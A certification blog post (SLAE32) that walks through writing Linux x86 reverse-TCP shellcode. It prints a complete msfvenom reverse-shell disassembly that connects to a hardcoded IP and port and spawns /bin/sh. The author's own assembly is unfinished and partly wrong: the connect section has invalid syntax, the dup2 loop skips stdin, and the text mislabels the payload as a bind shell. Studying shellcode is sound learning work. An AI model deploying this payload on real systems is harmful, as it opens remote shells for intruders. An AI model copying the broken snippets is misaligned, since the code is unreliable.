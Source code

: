 ```yaml
---
title: "SLAE32 0x02: Shell_Reverse_TCP Shellcode"
date: 2019-10-25
category: [SLAE32]
tags: [assembly, c, python, exploit development, reverse shell, linux, SLAE32]
header:
    teaser: "/assets/images/slae/rev_shell.jpg"
---
```

In contrast to a bind shell (which is explained in the previous post), a reverse shell is a type of shell in which the system on which the code is run connects a TCP socket to a remote IP address and port that have been designated to listen for incoming connections prior to the execution of the reverse shell. In other words, when a reverse shell is used, the system on which the reverse shell is executed acts as the system that initiates the connection while the remote system acts as the listener. Upon succesful connection to the remote system, a shell will be spawned on the system on which the code is run.

As previously demonstrated, it is wise to begin by analyzing the code of a TCP reverse shell written using a higher level language. The C program shown in the upcoming section will be used for this purpose. It is worth nothing here that there are many similarities in code between the two TCP shell types, so references to the previous post will be common, and some previous explanations may be reused. The focus will lie on the major differences in code between the TCP bind shell and the TCP reverse shell.

Once analysis of the C program is complete, the program will be re-written using assembly. This processes is documented and explained in detail following the C code analysis.

The third section will demonstrate a program written in Python that allows a user to configure an IP address and port number to be used in the Shell_Reverse_TCP shellcode.

## Objectives
Create a Shell_Reverse_TCP shellcode that;
1. Connects to an easily configurable IP address and port number
2. Executes a shell on a successful connection

### Create a TCP Socket
`int socket(int domain, int type, int protocol);`

### Connect TCP Socket to IP Socket Address Structure
`int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);`

### Direct Connection Socket Output
`int dup2(int oldfd, int newfd);`

### Execute Program
`int execve(const char *pathname, char *const argv[], char *const envp[]);`

## MSFVenom Shellcode Under the Microscope
We can analyze what a bind or reverse shell would look like by looking at the C function calls. In this case, I thought it would be fun to see what 
msfvenom was doing and to my surprise, I found an interesting artifact while comparing code snippets to my dissassembly. The major difference is that 
in most C code segments that I found, dup2 was being called after `connect`. The syscall order (which may not matter entirely, I don't know yet), 
is `socket`, `dup2`, `connect`, and `execve`. The `dup2` and `connect` may be swappable however, I will stick to the same order that msfvenom uses for consistency.

### Referencing MSF Goodies

```msfvenom -p linux/x86/shell_reverse_tcp -f raw| ndisasm -u -``` produces a bind shell payload the size of 68 bytes for us to compare to our generated shellcode.

```nasm
xor ebx,ebx  
mul ebx  
push ebx  
inc ebx     ; EBX=1 is socket
push ebx  
push byte +0x2 
mov ecx,esp  
mov al,0x66 ; socketcall syscall 
int 0x80    ; interrupt
xchg eax,ebx  
pop ecx  
mov al,0x3f ; dup2
int 0x80    ; interrupt
dec ecx  
jns 0x11  
push dword 0x80fea8c0 
push dword 0x5c110002 
mov ecx,esp  
mov al,0x66 ; socketcall syscall wrapper 
push eax  
push ecx  
push ebx  
mov bl,0x3  ; EBX=3 is connect
mov ecx,esp  
int 0x80    ; interrupt
push edx  
push dword 0x68732f6e 
push dword 0x69622f2f 
mov ebx,esp  
push edx  
push ebx  
mov ecx,esp  
mov al,0xb  ; execve
int 0x80    ; interrupt
```
## Building a Reverse TCP Shell
In this excercise, we will build a bind tcp shell using 4 syscalls. In the previous bind shell blog, 
I called each syscall directly using their hexidecimal referrence rather than using the socketcall wrapper. 
In this exersize, I will use socketcall where possible to learn the difference in usage. According to `man socketcall`, 
we will be using socket call to wrap the `socket` and `connect` syscalls. `dup2` and `execve` will not be wrapped.

### Socketcall System Call Explained

Conveniently, two of the four functions from the list above are all accessible via the socketcall system call. As detailed in man socketcall, the function expects two arguments.

```
#include <linux/net.h>
int socketcall(int call, unsigned long *args);  
```
The call argument determines which socket function to use, and the args argument is a pointer to an area of memory that contains the arguments for the socket function specified by call. For a list of socket functions and their respective values that are passable as the call argument to socketcall, the /usr/include/linux/net.h file should be referenced. The available functions for socketcall are shown below.

```
root@kali:~/workspace/SLAE# grep SYS /usr/include/linux/net.h
#define SYS_SOCKET      1               /* sys_socket(2)                */
#define SYS_BIND        2               /* sys_bind(2)                  */
#define SYS_CONNECT     3               /* sys_connect(2)               */
#define SYS_LISTEN      4               /* sys_listen(2)                */
#define SYS_ACCEPT      5               /* sys_accept(2)                */
...
```

### Socket

```nasm
global _start	; Standard start
		;
section .text	;
_start:		;

xor ebx, ebx	; Zero out registers before usage to avoid a logic error
xor ecx, ecx	;
mul cx		; ax = ax * cx (0)

;int socketcall(int call, unsigned long *args)
;*args: (int domain, int type, int protocol) 
;syscall number: 102 (0x66)
;
;Arguement Values:
;EAX -> socketcall sycall 0x66
;EBX -> int call 0x1 = sys_socket
;ECX -> ESP pointer
;STACK *args Values:
;3rd push -> domain = 2 (AF_INET/IPv4)
;2nd push -> type = 1 (SOCK_STREAM/TCP)
;1st push -> protocol = 0 (IPPROTO_TCP)
;

push ebx	; push 0x0
push 0x1	; 1 = SOCK_STREAM
push 0x2	; 2 = AF_INET
mov al, 0x66	; socketcall syscall
mov bl, 0x1	; sys_socket = 1
mov ecx, esp	; *args pointer
int 0x80	; interrupt
```

## Dup2
We can reuse the `dup2` code from our bind shell because all were doing is redirecting stdin, stdout, and stderr.

```nasm
;int dup2(int oldfd, int newfd)
;
;syscall number: 63 (0x3F)
;Arguement Values
;oldfd = previous sockfd value returned by socket
;newfd = 0, 1, 2 iteratively (stdin, stdout, stderr)

xchg ebx, eax	; swap oldfd into ebx (should be 0x3)
pop ecx		; pop 0x2 from socket call into ecx

sockfd_func:	; create a function to reproduce the same actions
mov al, 0x3F	; dup2 call
int 0x80	; interrupt
dec cl		; decrement ecx to 2 then 1 then 0
jnz sockfd_func ; loop back to sockfd_func if not zero
```

## Connect

```nasm
;int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
;
;syscall number: 102 (0x66) 
;Arguement Values
;EAX -> 0x66 socketcall
;EBX -> ESP pointer *args
;ECX -> Addrlen
;STACK *args Values:
;3rd push -> 
;

mov al 0x66	; socketcall wrapper
mov ebx, esp	; move *args to ebp
mov ecx,  	; 

```

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

